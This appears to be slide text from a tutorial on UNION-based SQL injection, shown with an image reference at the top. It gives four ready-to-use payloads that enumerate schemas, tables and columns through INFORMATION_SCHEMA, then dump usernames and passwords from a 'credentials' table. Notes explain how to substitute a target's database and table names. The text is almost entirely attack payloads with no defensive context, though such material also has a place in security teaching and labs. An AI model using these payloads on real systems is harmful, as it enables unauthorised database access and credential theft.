

Step 1: Schema/Database check
' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
Step 2: Tables check
 ' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
	Here , dev is database name which will replace to your target database name.
Step3: Columns check
 ' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
	Here , credentials is table name whick will replace to your target table name
Step4: Dum Data from table:
 ' UNION select 1, username, password, 4 from dev.credentials-- -
Where username and password are column name , dev is database name , credentials is table name